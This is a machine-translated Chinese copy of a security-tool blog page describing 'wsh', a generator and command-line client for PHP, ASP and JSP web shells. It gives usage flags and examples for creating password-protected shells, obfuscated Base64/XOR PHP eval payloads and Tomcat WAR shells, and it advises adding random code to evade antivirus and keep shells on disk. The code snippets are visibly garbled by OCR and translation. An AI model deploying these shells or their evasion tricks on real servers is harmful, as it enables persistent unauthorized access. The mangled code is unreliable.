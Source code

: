 # Wsh : Web Shell 生成器和命令行界面

> 原文：<https://kalilinuxtutorials.com/wsh/>

[![Rainbow Crackalack : Rainbow Table Generation & Lookup Tools](img/88f40a4594c71f1b17a3902be16f9d85.png "Rainbow Crackalack : Rainbow Table Generation & Lookup Tools")](https://1.bp.blogspot.com/-1GpemRb6YXo/XdBVAppVHsI/AAAAAAAADc8/1D_01PUiDAQ1voKm8C5XLgC4xL_GFrvyQCLcBGAsYHQ/s1600/RC%2B%25281%2529.png)

**wsh** (发音为 woosh)是一个 web shell 生成器和命令行界面。这一开始只是一个 http 客户端，因为与 webshells 交互是一件痛苦的事情。有一种表格，要发送命令，你必须在输入框中输入，然后按下按钮。我想要一些更适合我的工作流程并在终端上运行的东西。wsh 就这样诞生了。

该客户端具有命令历史记录和日志记录功能，并且可以配置为使用表单/按钮与以前部署的标准 webshell 进行交互。生成器用 php、asp 和 jsp 创建 webshells。它们是用随机变量生成的，所以每个都有唯一的散列。它们可以配置白名单、密码，并允许通过自定义的头和参数发送命令。生成器和客户端可以通过命令行标志或配置文件进行配置，以允许保存一个适合您的设置，而无需进行我称之为“帮助”的舞蹈。配置完成后，客户端和生成器使用相同的配置文件。

**特色**

*   通过命令行与部署的 web shells 交互
    *   记录
*   用 PHP、JSP 和 ASP 生成 webshells
    *   IP 白名单
    *   口令保护
    *   通过自定义头/参数发送命令
    *   文件上传/下载
    *   asp 和 php 的 Base64 编码外壳
    *   asp 和 php 的 XOR 加密外壳

**用法**

**连接**

**wsh【flags】
-X，–方法字符串 HTTP 方法:GET、POST、PUT、PATCH、DELETE(默认为“GET”)
–发送命令的 param 字符串参数
–发送命令的头字符串头
-P，–params 字符串 HTTP 请求参数
-H，–头字符串 HTTP 请求头
-c，–配置字符串配置文件
-k，–Ignore-SSL 忽略无效证书
–日志字符串日志文件
–前缀字符串前置**

**生成**

**wsh generate【flags】
wsh g【flags】
-X，–方法字符串 HTTP method (GET，POST，PUT，PATCH，DELETE)(默认为“GET”)
-p，–发送命令的 param 字符串参数
–发送命令的 header 字符串 Header
-w，–白名单字符串 IP 地址到白名单
-o， –outfile 字符串输出文件
–no-file 禁用文件上传/下载功能
–pass string 密码保护外壳
–pass-Header 用于发送密码的字符串头
–pass-param 用于发送密码的字符串参数
–xor-Header 用于发送 xor 密钥的字符串头
–xor-Key 用于 xor 加密的字符串密钥
–xor-param 用于发送 xor 密钥的字符串参数
–Base64 Base64 encode 外壳
–Minify Minify web shell 代码【T16**

**客户端使用/文件 IO**

我希望客户端是语言不可知的，所以所有的 webshells 都需要实现相同的上传/下载逻辑。不幸的是，在 jsp 和经典 asp 中本地进行多部分表单上传是一件痛苦的事情，所以文件在参数中以 base64 格式上传。这并不理想，因为最大文件上传大小受限于最大参数大小。在未来，我可能会尝试实现多部分表单上传，或者通过多个请求来传输更大的文件。

**$ wsh 127 . 0 . 0 . 1:8080/test . PHP–param cmd
127 . 0 . 0 . 1>help
get【本地文件路径】下载文件
put【远程文件路径】上传文件
clear 清屏
exit 退出 shell**

**发电机示例**

**简单的炮弹**

以下命令生成一个简单的 php web shell 并与之交互。

**$ wsh 生成 PHP–param cmd–no-file-o shell.php
在 shell.php 创建 shell。
$ wsh 127 . 0 . 0 . 1:8080/shell . PHP–param cmd**

命令也可以通过 http 头发送

**$ wsh generate PHP–no-file–header user-agent-o shell.php
在 shell.php 创建 shell。
$ wsh 127 . 0 . 0 . 1:8080/shell . PHP–header 用户代理**

**白名单**

**$ wsh 生成 PHP–no-file–param cmd-w 127 . 0 . 0 . 1，10 . 0 . 23 . 3-w 12.4.22.3-o shell.php**

**密码保护**

密码可以通过参数或标头发送。

**$ wsh generate PHP–no-file–param cmd–pass s3cr 3t–pass-param pass
$ wsh 127 . 0 . 0 . 1:8080/shell . PHP–param cmd-P pass:s3cr 3t
$ wsh generate PHP–no-file–param cmd–pass s3cr 3t–pass-header pass-header
$ wsh 127 . 0 . 0 . 1:8080/shell . PHP–param**

**Base64 / XOR 加密**

这个功能很有趣，但是可能需要对模板进行一些修改才能发挥作用。在 asp 和 jsp 的情况下，有助于解码 base64 的库是已知的 IOC，并将被标记。如果你对使用这些功能感兴趣，我建议修改模板和模糊处理。

与密码保护一样，xor 密钥可以通过参数或报头发送。

$**wsh g PHP–param cmd–no-file–base 64
<？PHP
eval(base 64 _ decode(' jezidsrfukvrvuvtvfny 21 k107 jezidsxryaw 0 oje senskttzxn 0 zw 0 oje senskttkawu 7 ')？>
$ wsh g PHP–param cmd–no-file–xorg-key S3 tk3 y–xorg-param x-key
PHP<？
$ khhx = $ _ request[" x-key "]；
$ lqc = base 64 _ decode(" D2 mpudjb 2 wrf FMI N2 agebqapldlwqg 182 jw4 xafozyxcpp 3 wwwmkenl 5 lvmmybedqafckfwg = ")；
【ooooqt = "；
用于($ ypui = 0)；$ ypui〔t18〕strlen($ lqc)；){
for($ cmq = 0；($ MQ<strlen($ khhx)&&【ypui】<【strlen($ lqc))；cMq++，ypui++ {
ooooqt。= $ lqc { $ ypui }∞khhx { $ cmq }；
}
}
eval($ ooooqt)；**

**雄猫壳**

要生成可以部署到 tomcat 的 webshell，创建一个名为 index.jsp 的 jsp shell，并运行下面的命令将其压缩到一个 war 文件中。

有时，tomcat 环境没有文件上传/下载所需的库，当发出请求时，shell 会出错。要解决这个问题，请使用`**--no-file**`标志。

**$ wsh g JSP–param cmd–no-file-o index.jsp
$ jar-CVF shell . war index.jsp**

**模板**

使用 go 模板库给生成器增加了很多灵活性。偶尔，webshell 会被 AV 捕获。但是，我发现在模板文件中添加一堆随机代码通常会使 shell 看起来足够良性，从而允许它在磁盘上持续存在。我在 templates/covert-php.tml 文件中包含了一个例子。

此外，您可以修改这些模板，以便在渗透测试的用例中包含您的姓名/联系信息。

**客户端功能**

**前缀**

可以指定一个前缀，为发送到 shell 的每个命令添加一个字符串。这可以用来把一个普通的 cmd 外壳变成一个 powershell 外壳。

**$ wsh http://10 . 0 . 0 . 27/shell . ASP–param cmd–前缀 powershell.exe
10 . 0 . 0 . 27>ls
目录:C:\windows\system32\inetsrv
模式 LastWriteTime 长度名称
——————
d——5/27/2020 11:49PM config
d——5/27/2020**

**测井**

日志带有时间戳，包括正在交互的主机。日志文件是附加的，因此可以随意对多个会话/主机使用同一个日志文件。

**127 . 0 . 0 . 1:8080/shell . PHP–param cmd–log localhost . log
登录到:localhost . log
127 . 0 . 0 . 1>ls
readme . MD
cmd
示例-configs
…
【04/20/2020 12:02:17】127 . 0 . 0 . 1>ls
readme . MD**

**修剪前缀/后缀**

客户端可以被配置为从请求中删除无关的 html 内容，这在与标准 html 界面 webshells 交互时很有用，或者如果一个生成的 shell 被偷偷嵌入到 wordpress 安装中。

$**wsh 127 . 0 . 0 . 1:8080/index . PHP-X POST–param cmd
127 . 0 . 0 . 1>ls
<div class = " p b-2 mt-4m b-2">
<H2>Output</H2>
/div>
<pre>
readme . MD
cmd**

[**Download**](https://github.com/EatonChips/wsh)